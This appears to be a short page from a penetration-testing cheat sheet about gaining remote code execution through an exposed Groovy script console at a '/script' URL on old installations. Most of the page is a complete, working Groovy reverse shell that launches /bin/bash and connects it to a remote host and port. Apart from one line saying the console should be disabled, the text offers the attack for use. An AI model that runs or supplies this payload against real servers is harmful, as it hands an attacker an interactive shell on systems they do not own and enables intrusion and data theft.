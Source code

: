 ## Remote code execution with Groovy scripts

Arbitrary Groovy script execution should be disabled, but might be left on in old installations on the URL

```
https://mydomain.com/script
```

Groovy script to establish a reverse shell w/ a remote ip

```groovy
String host="10.123.32.1";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```
